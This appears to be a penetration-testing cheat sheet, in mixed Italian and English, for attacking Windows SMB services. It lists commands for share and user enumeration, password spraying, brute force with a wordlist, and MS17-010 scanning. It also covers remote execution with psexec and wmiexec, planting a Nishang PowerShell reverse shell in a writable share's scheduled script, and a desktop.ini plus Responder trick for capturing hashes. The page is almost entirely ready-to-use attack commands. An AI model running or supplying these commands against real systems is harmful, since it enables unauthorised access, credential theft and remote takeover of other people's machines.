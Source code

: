 # SMB 139,445

### **Share and Permissions Enumeration**

```bash
cme smb <ip> -u guest -p "" --shares
```

### **Share Content Enumeration**

```bash
cme smb <IP> -u <USER> -p "<PASS>" -M spider_plus
```

### **Users Enumeration**

```bash
crackmapexec smb <IP> -u <USER> -p '<PASS>' --users
```

#### Users Password Spray

Put the users in a list and then try to see if there is password reuse

{% code overflow="wrap" %}
```bash
crackmapexec smb <IP> -u users.txt -p '<PASS>' --continue-on-success
```
{% endcode %}

### **CHECK VULN SU SMB(MS17-010 ECC...)**

```bash
nmap -p445 --script vuln
```

### SMB Brute Force

{% code overflow="wrap" %}
```bash
crackmapexec smb <MACHINE-IP> -u <USER> -p /usr/share/wordlists/rockyou.txt
```
{% endcode %}

### **PWN**

```bash
cme smb <IP> <USER> -p "<PASS>"
```

![file://C:/Users/STRAOL\~1/AppData/Local/Temp/.HAXM41/2.png](file:///C:/Users/STRAOL\~1/AppData/Local/Temp/.HAXM41/2.png) poi

```bash
psexec.py <NOME DOMINIO>/<USER>@<IP>
```

o

```bash
wmiexec.py <NOME DOMINIO>/<USER>@<IP>
```

### Write Permission on share

In caso te abbia permessi di scrittura sullo share e ci sia uno script che venga runnato ogni tot, sostituisce lo script o aggiungici questa riga [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)

```bash
Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <PORT>
```

#### **SCRITTURA SULLO SHARE**

_Desktop.ini_ Carica un file desktop.ini

```powershell
[.ShellClassInfo]
IconResource=\\<ip>\test
```

logga come utente con i permessi

```bash
smbclient //<IP>/<SHARE> -U <USER>
```

e ascolta con responder

```bash
responder -I tun0 -wPv
```
